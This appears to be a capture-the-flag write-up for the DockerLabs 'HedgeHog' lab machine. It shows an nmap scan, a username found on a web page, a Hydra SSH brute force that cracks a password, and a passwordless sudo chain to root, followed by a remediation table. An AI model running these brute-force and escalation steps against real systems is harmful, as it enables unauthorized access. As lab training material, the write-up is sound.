







# HedgeHog — DockerLabs Writeup

**Platform:** DockerLabs | **Difficulty:** Very Easy | **Target IP:** 172.17.0.2 | **Attacker IP:** 172.17.0.1

## Machine info



## Summary

**HedgeHog** is a Very Easy DockerLabs machine built around a username disclosed directly on the web root and a two-hop sudo misconfiguration. The page displays a single word, "tails" — a valid SSH username, cracked via dictionary attack. That account has passwordless sudo to a second user, `sonic`, who in turn has unrestricted passwordless sudo, leading straight to root.

**Attack chain:** Reconnaissance → Web Root (Username Disclosure) → SSH Brute Force → Sudo Chain (tails → sonic → root)

## 1. Reconnaissance

Confirmed connectivity to the target:



Full port scan with `nmap`:

```
nmap -p- -sS -sC -sV -vvv --open -oN scan.txt 172.17.0.2

PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 64 OpenSSH 9.6p1 Ubuntu 3ubuntu13.5 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    syn-ack ttl 64 Apache httpd 2.4.58 ((Ubuntu))
|_http-server-header: Apache/2.4.58 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
```

Only SSH and a title-less Apache instance are exposed.

## 2. Web Enumeration

The web root displays a single word, in plaintext, with no other content:



`tails` is a valid SSH username.

## 3. SSH Brute Force

With a valid username, Hydra was used against SSH with a reversed, control-character-stripped copy of `rockyou.txt`:

```
tac /usr/share/wordlists/rockyou.txt > ~/rev_wordlist.txt
sed -i 's/\t//g; s/\r//g; s/^[ \t]*//; s/[ \t]*$//' ~/rev_wordlist.txt

hydra -l tails -P ~/rev_wordlist.txt ssh://172.17.0.2

[22][ssh] host: 172.17.0.2   login: tails   password: 3117548331
```

Valid credentials: **tails:3117548331**

## 4. Privilege Escalation

Logged in over SSH:



Checking sudo permissions for `tails` revealed passwordless access to a second user, `sonic`:

```
sudo -l

User tails may run the following commands on a7aea9328000:
    (sonic) NOPASSWD: ALL
```



Checking sudo permissions for `sonic` revealed unrestricted passwordless sudo:

```
sudo -l

User sonic may run the following commands on a7aea9328000:
    (ALL) NOPASSWD: ALL
```





Root access confirmed.

## Root Cause & Remediation

| Issue | Fix |
|---|---|
| Valid username displayed in plaintext on the public web root | Never expose usernames or other account details on public-facing pages |
| Weak SSH password (`tails:3117548331`) vulnerable to dictionary attack | Enforce a strong password policy; prefer key-based SSH authentication |
| Passwordless sudo chained across two accounts (`tails` → `sonic` → unrestricted `ALL`) | Remove NOPASSWD entries and avoid granting blanket `ALL` sudo rights to non-admin accounts |
